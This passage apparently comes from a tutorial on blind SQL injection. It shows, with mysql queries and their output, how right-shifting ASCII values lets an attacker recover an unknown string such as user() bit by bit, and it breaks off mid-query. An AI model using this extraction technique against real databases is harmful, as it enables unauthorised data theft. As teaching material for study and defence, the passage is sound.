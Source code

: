 +---------------------+

|                   1 |

+---------------------+

1 row in set (0.00 sec)

We got "0110" now and looking at the table for a above here you can see this actually is true.
Let's try this on a string we actually don't know, user() for example.


First we shall right shift with 7 bits, possible results are 1 and 0.

mysql> select (ascii((substr(user(),1,1))) >> 7)=0;

+--------------------------------------+

| (ascii((substr(user(),1,1))) >> 7)=0 |

+--------------------------------------+

|                                    1 |

+--------------------------------------+

1 row in set (0.00 sec)

We now know that the first bit is set to 0.
0???????

The next possible options are 0 and 1 again so we compare it with 0.

mysql> select (ascii((substr(user(),1,1))) >> 6)=0;

+--------------------------------------+

| (ascii((substr(user(),1,1))) >> 6)=0 |

+--------------------------------------+

|                                    0 |

+--------------------------------------+

1 row in set (0.00 sec)

Now we know the second bit is set to 1.
01??????

Possible next options are:
010 = 2
011 = 3

mysql> select (ascii((substr(user(),1,1))) >> 5)=2;

+--------------------------------------+

| (ascii((substr(user(),1,1))) >> 5)=2 |
